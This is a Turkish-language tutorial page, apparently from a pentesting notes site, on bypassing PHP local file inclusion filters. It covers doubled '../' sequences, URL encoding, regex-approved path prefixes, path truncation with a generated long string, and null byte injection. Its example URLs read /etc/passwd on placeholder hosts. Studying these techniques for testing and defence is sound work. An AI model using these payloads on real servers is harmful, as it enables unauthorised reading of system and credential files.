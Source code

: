 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Basic Bypasses

## Non-Recursive Path Traversal Filters

Geliştiriciler, LFI saldırısını engellemek için aşağıdaki gibi bir kod kullanabilir:

```php
$language = str_replace('../', '', $_GET['language']);
```

Bu kod, GET parametresinde bulunan `../` ifadelerini temizlemektedir. Ancak bu işlem yeterli değildir. Bundan kaçınmak için aşağıdaki ifadeler kullanılabilir:

* [x] `....//`
* [x] `..././`
* [x] `....\/`
* [x] `....////`

Bu şekilde, ifade (`../`) silindikten sonra bile aynı ifade oluşturulmuş olur.

## Encoding

Bazı web siteleri nokta (`.`) ve eğik çizgi (`/`) gibi ifadelerin URL kısmında kullanılmasını engelleyebilir. Bu engeli aşmak için ifade (`../`) URL kodlaması ile değiştirilebilir (`%2e%2e%2f`).

* [x] Örneğin URL şu şekilde gözükebilir:

```text
http://SERVER_IP_ADDRESS:PORT/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

## Approved Paths

Bazı web uygulamaları RegEx kullanarak, dosyaların belirli bir dizin altında olup olmadığını doğrulayabilir:

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

Web uygulamasının RegEx kontrolünde hangi dizini hesaba kattığını çeşitli yöntemlerle (fuzzing vs.) öğrendikten sonra, bu korumayı aşmak için LFI dizemizi bu dizin ile başlatabiliriz.

* [x] Örneğin URL şu şekilde gözükebilir:

```text
http://SERVER_IP_ADDRESS:PORT/index.php?language=./languages/../../../../etc/passwd
```

## Appended Extension

Sitenin kaynak kodunda aşağıdaki gibi bir satır olsun:

```php
include($_GET['language'] . ".php");
```

Bu durumda, bahsedilen LFI yöntemleri (örneğin `../../../etc/passwd`) işe yaramayacaktır. Çünkü GET parametresini ilgili şekilde verdiğimizde, mevcut olmayan bir dosya yolu (`../../../etc/passwd.php`) talep etmiş oluruz.

Bu korumayı aşmak için, eski PHP sürümlerini etkileyen bazı saldırı yöntemleri kullanılabilir.

### Path Truncation

Eski PHP sürümlerinde bir dizenin maksimum uzunluğu 4096 karakter olarak belirlenmiştir (32-bit sistem sınırlaması). Eğer 4096 karakterden daha uzun bir dize tanımlanırsa, bu sayının ötesindeki karakterler kırpılır.

Buna ek olarak, aşağıdaki durumlarda da belirtilen kırpma işlemleri gerçekleşir:

* `/etc/hosts/.` --> `/etc/hosts`
* `///etc/hosts` --> `/etc/hosts`
* `/etc/./hosts` --> `/etc/hosts`

Bahsedilen bu PHP sınırlamaları birlikte kullanıldığında, istenilen yolu elde etmek için çok uzun dizeler oluşturabiliriz. 4096 karakter sınırına ulaştığımızda, geride kalan uzantı (örneğin `.php`) kırpılır ve istediğimiz yolu elde etmiş oluruz.

!!! warning "Non-Existing Directory"

    Burada bahsedilen tekniğin işe yaraması için, LFI dizesi, sunucuda mevcut olmayan bir dizin ifadesi ile başlamalıdır.

Oldukça uzun bir LFI dizesi oluşturmak için aşağıdaki komutu kullanabiliriz:

```bash
echo -n "NonExistingDirectory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

!!! info "4096"

    Verilen komutta, `./` ifadesi 2048 kere tekrarlanarak 4096 karakter elde edilmiştir.

### Null Bytes

Eski PHP sürümlerinde Null Byte Injection zafiyeti de kullanılabilir. Bunun için ilgili dizenin sonuna Null karakteri (`%00`) eklenerek, bu karakterden sonraki ifadelerin geçersiz olması sağlanabilir.

* [x] Örneğin URL şu şekilde gözükebilir:

```text
http://SERVER_IP_ADDRESS:PORT/index.php?language=./languages/../../../../etc/passwd%00
```
